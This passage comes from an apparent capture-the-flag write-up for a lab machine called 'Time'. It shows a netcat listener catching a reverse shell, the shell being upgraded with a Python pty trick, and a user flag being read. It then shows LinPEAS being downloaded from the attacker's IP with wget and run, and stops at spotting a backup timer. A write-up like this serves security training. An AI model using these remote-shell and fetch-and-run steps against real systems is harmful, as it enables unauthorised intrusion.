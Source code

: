     oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58288
    bash: cannot set terminal process group (863): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
    

I’ll upgrade my shell with the normal trick:

    pericles@time:/var/www/html$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pericles@time:/var/www/html$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pericles@time:/var/www/html$ 
    

And grab :`user.txt`

    pericles@time:/home/pericles$ cat user.txt
    7e5b3337************************
    

## Shell as root

### Enumeration

After my normal checks didn’t surface much, I started an HTTP server in my local [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) directory, uploaded it to Time, and ran it:

    pericles@time:/dev/shm$ wget 10.10.14.8/linpeas.sh
    --2021-02-09 22:02:59--  http://10.10.14.8/linpeas.sh
    Connecting to 10.10.14.8:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320037 (313K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.07s   
    
    2021-02-09 22:03:00 (4.12 MB/s) - ‘linpeas.sh’ saved [320037/320037]
    
    pericles@time:/dev/shm$ chmod +x linpeas.sh 
    pericles@time:/dev/shm$ ./linpeas.sh
    ...[snip]...
    

One line that jumped out was in the System Timers section:

    ...[snip]...
    [+] System timers
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers     
    NEXT                        LEFT          LAST                        PASSED               UNIT                         ACTIVATES
    Tue 2021-02-09 22:05:01 UTC 5s left       Tue 2021-02-09 22:04:51 UTC 4s ago               timer_backup.timer           timer_backup.service
    ...[snip]...
    